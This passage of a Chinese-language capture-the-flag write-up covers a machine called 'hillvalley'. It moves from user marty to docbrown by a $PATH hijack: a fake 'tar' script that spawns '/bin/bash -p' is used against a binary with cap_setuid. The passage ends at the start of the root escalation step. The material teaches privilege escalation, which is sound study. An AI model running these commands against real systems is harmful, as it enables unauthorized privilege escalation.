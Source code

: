 ```bash
www-data@hillvalley:/var/www/project/app$ su marty
Password: 
marty@hillvalley:/var/www/project/app$ id
uid=1001(marty) gid=1001(marty) groups=1001(marty)
```

在`marty`的主目录下，找到并读取了`user.txt`，获得第一个flag。

## 4.2 横向移动：marty -> docbrown

作为`marty`用户，开始寻找进一步提权的方法。`sudo -l`显示没有sudo权限。在主目录下发现一个属于`docbrown`用户的笔记文件`.flux_notes`，内容为`Tiempos inestables... aún necesito arreglar el runner para la próxima prueba.` (不稳定的时期... 我仍然需要为下一次测试修复runner。)，暗示存在一个名为"runner"的程序。

使用`getcap`命令检查系统文件的Linux Capabilities，发现了一个关键配置：

```bash
marty@hillvalley:~$ getcap -r / 2>/dev/null
/usr/local/bin/backup_runner cap_setuid=ep
...
```

> **知识点补充**: Linux Capabilities将root用户的特权分解为更小的单元。`cap_setuid=ep`表示`/usr/local/bin/backup_runner`这个程序拥有任意设置进程UID的能力，这是非常强大的权限。

使用`strings`命令分析`backup_runner`，发现它会调用`tar`命令，并且没有使用绝对路径。

```bash
marty@hillvalley:~$ strings /usr/local/bin/backup_runner
...
Usage: backup_runner <filename>
tar czf /tmp/%s-backup.tar.gz /home/docbrown/docs
...
```

这构成了一个典型的`$PATH`劫持漏洞。通过在`/tmp`目录下创建一个恶意的`tar`脚本，并将其路径添加到`$PATH`环境变量的最前面，可以劫持`backup_runner`的执行流。

```bash
marty@hillvalley:~$ cd /tmp
marty@hillvalley:/tmp$ echo '#!/bin/bash' > tar
marty@hillvalley:/tmp$ echo '/bin/bash -p' >> tar
marty@hillvalley:/tmp$ chmod +x tar
marty@hillvalley:/tmp$ export PATH=/tmp:$PATH
marty@hillvalley:/tmp$ /usr/local/bin/backup_runner x
docbrown@hillvalley:/tmp$ id
uid=1000(docbrown) gid=1001(marty) groups=1001(marty)
```

执行后，成功切换为`docbrown`用户。

## 4.3 最终提权：docbrown -> root

作为`docbrown`用户，再次执行`sudo -l`检查权限。

```bash
docbrown@hillvalley:/tmp$ sudo -l
...
User docbrown may run the following commands on hillvaley:
    (root) NOPASSWD: /usr/local/bin/time_daemon
```
